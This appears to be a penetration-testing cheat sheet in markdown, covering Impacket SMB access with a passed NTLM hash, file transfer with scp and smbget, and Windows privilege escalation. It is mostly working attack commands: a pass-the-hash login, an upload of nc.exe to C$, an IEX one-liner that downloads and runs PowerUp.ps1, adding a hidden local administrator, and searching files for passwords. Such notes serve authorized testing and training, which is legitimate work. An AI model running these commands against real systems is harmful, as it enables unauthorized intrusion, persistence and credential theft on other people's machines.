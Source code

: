 ### Impacket
- connect smbclient.py with hash:   
  `/usr/share/doc/python-impacket/examples/smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:175a592f3b0c0c5f02fad40c51412d3a Administrator@10.11.1.202` 
- get shares: `shares` 
- upload something to c$:  
  `use C$`  
  `put /var/www/html/transfer/nc.exe` 

### Download with SCP
- when having SSH key to remote target, download file with:  
  `scp -i mysshprivatekey user@10.10.10.10:/home/myuser/filename /home/folder/targetfilename`  

### Upload  
  `# scp -r localfolder/ user@remotehost:/targetdir/`   

### SSH copy
- file: `scp -p 192.168.1.100:/root/filetocopy targetfile` 
- directory: `scp -r root@192.168.1.100:/var/log ~/backup-logs`  

### Others
- `smbget -R smb://1.1.1.1/folder` 
- LOLBins Windows: https://lolbas-project.github.io/
- LOLBins Linux: https://gtfobins.github.io/

## PrivEsc Windows
- https://github.com/itm4n/PrivescCheck   
- missing patches:   
  https://github.com/rasta-mouse/Sherlock   
  https://github.com/rasta-mouse/Watson   

- Add new admin:
  `net user /add [username] [password]`  
  `net localgroup administrators [username] /add` 

- `IEX (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1")`  
  `Invoke-AllChecks`
  
- Search for passwords in ini,xml and txt files:  
  `findstr /si password *.xml *.ini *.txt`  
  
- Check services:  
  `wmic service get name, displayname, pathname, startname`  
  Check insecure service permissions:  
  `accesschk.exe -accepteula -uwcqv "Authenticated Users" *`  

- Check Privileges with: `whoami /priv`  
  If User has `SeImpersonate` or `SeAssignPrimaryToken` (most often service accounts!) you can get to SYSTEM by using the "potato": https://github.com/ohpe/juicy-potato  
  For IIS: https://www.youtube.com/watch?v=wK0r-TZR7w8&feature=emb_title  
  For SQL Server: https://www.youtube.com/watch?v=3CPdKMeB0UY&feature=emb_title 
  
